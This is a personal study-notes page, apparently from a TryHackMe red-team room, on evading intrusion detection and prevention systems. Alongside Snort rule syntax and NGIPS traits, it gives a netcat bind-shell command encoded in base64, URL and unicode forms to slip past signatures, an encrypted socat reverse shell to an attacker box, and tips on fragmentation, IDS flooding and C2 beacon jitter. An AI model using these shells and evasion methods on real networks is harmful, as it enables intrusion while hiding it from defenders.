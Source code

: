 # Evading-IPS-And-IDS
Visit the [[Intrusion-Detection-Systems]] and [[Intrusion-Prevention-Systems]] articles for more

## Definitions

Acronym | Full Name
--- | --- 
IPS | Intrusion Prevention System
IDS  |Intrusion Detection System
HIDS |  Network-based-IDS
NIDS |  Host-based-IDS

Network Traffic and Host activities is either Benign or Malicious traffic.

Method of Detection | Description
--- | ---
Signature-based | Signatures of known malicious traffic fed into IDS.
Anomaly/Behaviour-based |  Regular traffic model, for IDS to detect anomalies.
Policy-based |  Detect based on policy violations

## IDS/IPS each have rule syntax:
For example [[Snort]] uses:

Rule Header | Rule options 
--- | ---
Action		|	alert, log, pass, drop and reject
Protocol	| 	TCP, UDP, ICMP or IP
Source IP/Port  | IP/mask any # = anything but from IP/mask range
Direction of Flow |	sourceTOdestination = '->'; '<>' birectional 
Destination IP/Port |Similar to Source IP/Port
Some more specifics | `flow:established` (full three handsake stream), `content:"<TYPE>"` 

Snort rule that detects the term `ncat` in the payload of the traffic exchanged with our webserver to learn how people exploit this vulnerability would end up like:
``alert tcp any any <> any 80 (msg: "Netcat Exploitation"; flow:established,to_server; content:"POST"; nocase; http_method; content:"ncat"; nocase; sid:1000032; rev:1;)


## Evasion via protocol manipulation includes:

- Use different protocol
- Source Port
- Session Splicing
- Invalid Packets

#### Relying on a different protocol


IF TCP|UDP THEN use UDP|TCP
	ncat -ulvnp PORT_NUM # u for udp listener

IF web-browsing-allowed THEN:
	(protected-host can connect via port 80 and 443, unless local proxy is used)

	Use a Google web hosting to concelal malicious site
IF IPS blocks DNS-queries && HTTP requests THEN:
	(local machines (cannot query external DNS servers)(can query local DNS server)&& enforces HTTP communications)	
	HTTPS can tunnel traffic to evade IPS 

#### Manipulating (Source) TCP/UDP port

If you all your traffic coming from an established [[Network-Protocols]] port then the recieving end will interpret just by port number, allowing for evasion. Without deep packet inspection, the port numbers are the primary indicator of the service used, unless the security solution can analyze the data carried by the TCP segments.


#### Session Splicing

IPv4, IP packet fragmentation or session splicing - simiply breaking and or reordering packets of data up. The assumption regarding this strategies potental evasiveneess is that if traffic is in smaller packets, you will avoid matching to any of the IDS signatures. Dividing your payload among multiple packets and potential reordering them and the reordering it back to its orginal linear order will evade IDS parsing for particular stream of bytes. Unless the IDS reassembles the packets, the rule won’t be triggered.

#### Sending Invalid Packets

Sending invalid packets the response of systems is unclear, therefore experimenting to with invalid pakects an IDS/IPS might process it, while the target system might ignore it.

Refer to [[Nmap-Cheatsheet]] for experimenting with invalid packets to prove the existence of IDS/IPS.

Suppose you want to force all your packets to be fragmented into specific sizes: see [monkey](https://www.monkey.org/~dugsong/fragroute/)

#### Custom packets with Custom fields:
`hping3 --help`

## Evasion via Payload Manipulation

####  Obfuscating and encoding the payload
```bash
ncat -lvnp 1234 -e /bin/bash 	=	bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA== 	#base64
ncat -lvnp 1234 -e /bin/bash	=	ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbas		#urlencode
ncat -lvnp 1234 -e /bin/bash 	=       # escape unicode, with cyberchef

`\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
```

#### Encrypting the communication channel
Create Privacy Enhanced Mail(PEM), see [[Socat-Cheatsheet]]
```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

#   req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
#   -x509 specifies that we want an X.509 certificate
#   -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
#   -days 365 shows that the validity of our certificate will be one year
#   -subj sets data, such as organization and country, via the command-line.
#   -nodes simplifies our command and does not encrypt the private key
#   -keyout PRIVATE_KEY specifies the filename where we want to save our private key
#   -out CERTIFICATE specifies the filename to which we want to write the certificate request


cat reverse.key reverse.crt > reverse.pem

# listener that return execution output
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#    -d -d provides some debugging data (fatal, error, warning, and notice messages)
#    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
#    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
#    verify=0 disables checking peer’s certificate
#    fork creates a sub-process to handle each new connection.

# socat:	
# On Attack box:
socat -d -d TCP-LISTEN:4443,fork STDOUT
# On target machine:
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

#### Modifying the shellcode

## Route Manipulation

For route manipulation see [[Proxies]] and [[Port-Redirection-And-Tunnelling]]

With examples from the THM Room use: [[Nmap-Cheatsheet]]

Relying on source routing with `--ip-options "L $IP $IP $IP"` would specify loose routing - scan through any in the array, whereas strict routing with `"S"` as the 0th index of the string would strict hop from first `$IP` to the last. Using proxy servers with `--proxies proto://host:port, proto://host:port`, valid protocols are HTTP and SOCKS4 - authenication is not supported.


## Evasion via Tactical DoS

IDS/IPS requires a high processing power to managing and regulate rules grows and tthe network traffic volume increase, and with spefically IDS logging of said traffic and matching of rule signatures.
1. Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
1. Create a massive amount of not-malicious traffic that would still make it to the logs, congesting the communication channel with the logging server or exceed its disk writing capacity.

## C2 Evasive Tactices
See [[Introduction-To-Command-And-Control-Frameworks]] for more information:

1. User Agent - Innocuous configuration rather than default
2. Sleep time - control callback interval between beacon checkins
3. Jitter - Pseudo-Randomness of sleep time THM:*"A jitter of 30% results in a sleep time of ±30% to further evade detection."*
4. SSL Certificate - Authenicity equals success
5. DNS Beacon - If exfiltrating data via DNS - configure DNS server and the hostname in the DNS query

[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)


## Next-Gen Security

Next-Generation Network IPS (NGNIPS) has the following five characteristics according to [Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):

1.  Standard first-generation IPS capabilities: A next-generation network IPS should achieve what a traditional network IPS can do.
2.  Application awareness and full-stack visibility: Identify traffic from various applications and enforce the network security policy. An NGNIPS must be able to understand up to the application layer.
3.  Context-awareness: Use information from sources outside of the IPS to aid in blocking decisions.
4.  Content awareness: Able to inspect and classify files, such as executable programs and documents, in inbound and outbound traffic.
5.  Agile engine: Support upgrade paths to benefit from new information feeds.


## References
[THM Network Evasion Room](https://tryhackme.com/room/redteamnetsec)
[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)
[monkey](https://www.monkey.org/~dugsong/fragroute/)
[Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):